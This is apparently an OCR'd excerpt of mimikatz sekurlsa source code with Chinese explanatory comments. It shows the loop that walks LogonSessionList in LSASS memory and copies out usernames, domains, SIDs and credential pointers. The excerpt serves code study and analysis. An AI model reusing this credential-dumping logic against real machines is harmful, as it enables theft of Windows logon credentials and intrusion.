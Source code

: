 ```c++
    securityStruct.hMemory = cLsass.hLsassMem;
    if(securityStruct.address = LogonSessionListCount)
        // 把 LogonSessionListCount 复制到 nbListes 中
        kull_m_memory_copy(&data, &securityStruct, sizeof(ULONG));

    // for(i = 0; i < LogonSessionListCount; i++)
    for(i = 0; i < nbListes; i++)
    {
        securityStruct.address = &LogonSessionList[i];
        data.address = &pStruct;
        data.hMemory = &KULL_M_MEMORY_GLOBAL_OWN_HANDLE;
        if(aBuffer.address = LocalAlloc(LPTR, helper->tailleStruct))
        {
            // 把 LogonSessionList[i] 复制到 pStruct 指向的内存中
            if(kull_m_memory_copy(&data, &securityStruct, sizeof(PVOID)))
            {
                data.address = pStruct;
                data.hMemory = securityStruct.hMemory;

                // while((pStruct != &LogonSessionList[i]) && retCallback)
                while((data.address != securityStruct.address) && retCallback)
                {
                    // 把 LogonSessionList[i]（pStruct）复制到 aBuffer.address 指向的内存中
                    if(kull_m_memory_copy(&aBuffer, &data, helper->tailleStruct))
                    {
                        sessionData.LogonId     = (PLUID)           ((PBYTE) aBuffer.address + helper->offsetToLuid);
                        sessionData.LogonType   = *((PULONG)        ((PBYTE) aBuffer.address + helper->offsetToLogonType));
                        sessionData.Session     = *((PULONG)        ((PBYTE) aBuffer.address + helper->offsetToSession));
                        sessionData.UserName    = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper->offsetToUsername);
                        sessionData.LogonDomain = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper->offsetToDomain);
                        sessionData.pCredentials= *(PVOID *)        ((PBYTE) aBuffer.address + helper->offsetToCredentials);
                        sessionData.pSid        = *(PSID *)         ((PBYTE) aBuffer.address + helper->offsetToPSid);
                        sessionData.pCredentialManager = *(PVOID *) ((PBYTE) aBuffer.address + helper->offsetToCredentialManager);
                        sessionData.LogonTime   = *((PFILETIME)     ((PBYTE) aBuffer.address + helper->offsetToLogonTime));
                        sessionData.LogonServer = (PUNICODE_STRING) ((PBYTE) aBuffer.address + helper->offsetToLogonServer);

                        kull_m_process_getUnicodeString(sessionData.UserName, cLsass.hLsassMem);
                        kull_m_process_getUnicodeString(sessionData.LogonDomain, cLsass.hLsassMem);
                        kull_m_process_getUnicodeString(sessionData.LogonServer, cLsass.hLsassMem);
                        kull_m_process_getSid(&sessionData.pSid, cLsass.hLsassMem);
                        // callback 为 kuhl_m_sekurlsa_enum_callback_logondata
                        retCallback = callback(&sessionData, pOptionalData);

                        if(sessionData.UserName->Buffer)
                            LocalFree(sessionData.UserName->Buffer);
                        if(sessionData.LogonDomain->Buffer)
                            LocalFree(sessionData.LogonDomain->Buffer);
                        if(sessionData.LogonServer->Buffer)
                            LocalFree(sessionData.LogonServer->Buffer);
                        if(sessionData.pSid)
                            LocalFree(sessionData.pSid);

                        data.address = ((PLIST_ENTRY) (aBuffer.address))->Flink;
```